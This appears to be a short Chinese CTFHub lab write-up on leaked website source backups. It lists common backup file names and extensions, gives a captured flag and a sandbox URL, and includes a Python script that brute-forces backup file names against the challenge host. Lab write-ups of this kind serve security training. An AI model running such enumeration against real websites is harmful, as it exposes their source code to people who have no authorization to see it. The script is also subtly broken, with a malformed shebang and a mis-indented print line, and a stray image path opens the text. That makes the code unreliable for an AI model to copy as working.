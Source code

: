 ctfhub{eff7ead587e67aab8af40775}

### 备份文件下载

#### 网站源码

当开发人员在线上环境中对源代码进行了备份操作，并且将备份文件放在了 web 目录下，就会引起网站源码泄露。

可能有点用的提示：

```
#### 常见的网站源码备份文件后缀
------
- tar
- tar.gz
- zip
- rar
#### 常见的网站源码备份文件名
------
- web
- website
- backup
- back
- www
- wwwroot
- temp 
```

http://challenge-6ede861cbefdfbaf.sandbox.ctfhub.com:10080/www.zip

```
\#!usr/bin/env python
#_*_ coding:utf-8 _*_
import requests 
url="http://challenge-9936840b90db7048.sandbox.ctfhub.com:10080/"
list1=['web', 'website', 'backup', 'back', 'www', 'wwwroot', 'temp'] 
list2=['tar', 'tar.gz', 'zip', 'rar']
for i in list1: 
 for j in list2:      
   url_f=url+i+"."+j 
   r=requests.get(url_f)     
   if(r.status_code == 200):         
   print(url_f) 
```

对没有错，就是通过这个脚本来判断是哪个页面为200
